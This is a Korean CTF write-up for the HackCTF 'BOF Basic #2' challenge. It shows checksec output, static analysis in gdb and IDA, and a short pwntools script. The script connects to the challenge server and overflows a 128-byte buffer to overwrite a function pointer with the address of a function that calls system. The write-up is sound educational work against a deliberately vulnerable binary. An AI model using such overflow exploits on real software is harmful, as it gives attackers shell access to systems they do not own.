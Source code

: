 ```yaml
---
title:  "[HackCTF] BOF Basic #2 풀이"
categories:
    - Pwnable
tags:
    - ctf.j0n9hyun.xyz
toc: true
published: true
---
```

[HackCTF] BOF Basic #2 풀이

# Environments

|Name|Config|
|:---:|:---|
|CPU|Apple M1|
|Architecture|ARM64|
|OS|Microsoft Windows 11 on ARM|
|Tools|- gdb-peda<br/>- Hex-Rays IDA 7.5|

# Problem
![](/assets/HCTF/bof_basic-1-0.png)
```
Get Input
Print 하아아아아아아아앙 또는 eah dude! You win!
```

요약: `bof_basic2`, `nc ctf.j0n9hyun.xyz 3001` 으로부터 flag 찾기

# File Format
![](/assets/HCTF/bof_basic-1-1.png)

![](/assets/HCTF/bof_basic-1-2.png)

> x86 ELF LSB Executable, Not Stripped, Not UPX Packed

# checksec

|Name|Status|
|:---:|:---|
|CANARY|disabled|
|FORTIFY|disabled
|NX|ENABLED|
|PIE|disabled|
|RELRO|Partial|

- Can overwrite GOT

# Solution
![](/assets/HCTF/bof_basic-1-3.png)

우선 Function 정보를 `info func`를 통해 확인 함. system func call 이 이루어지므로 해당 func을 호출하는 것을 목표로 정함.

![](/assets/HCTF/bof_basic-1-4.png)

다만 main func를 보면 따로 `fgets` 외에 별다른 call 이 없음. `call eax`를 통해 진행되는 것 확인. `system@plt` 가 존재 하므로 어디선가는 확실히 call을 함.

![](/assets/HCTF/bof_basic-1-6.png)

IDA를 통해 정적 분석으로 이동. `void` 형 pointer 발견. 이 후 v5에 `sup` method를 넣음. 또한 메모리의경우 0x8C 를 서로 나눈 것으로 확인. `ebp`로부터 0x80 (128), 0xC (12) 만큼 서로 나눔. `fgets`가 133 까지 입력을 받으므로 `s`를 bof 시켜 `v5`에 들어갈 `sup` func 의 주소를 바꿀 수 있음.

`sup` 메서드는 단순 `puts`를 호출하는 메서드 임을 확인. `func` 목록 중 이제서야 `shell` 이라는 누가봐도 답 혹은 함정 일 것 같은 func 뒤늦게 발견

![](/assets/HCTF/bof_basic-1-7.png)

`system`을 call 하는 것 확인. 이제 `sup`의 주소를 `0x0804849b`로 자연스럽게 넘기면 `system@plt` call 가능.

# Exploit Scenario
```
# p32: 4 Byte packing
payload = "Z" * 128 + p32(0x0804849b)
```

# Exploit Code
```
from pwn import *
context.log_level = "DEBUG" # set log level to debug

p = remote("ctf.j0n9hyun.xyz", 3001)
payload = "Z" * 128 + p32(0x0804849b)

p.sendline(payload) # send payload to p
p.interactive() # Prevent closing shell
```

# Result
![](/assets/HCTF/bof_basic-1-5.png)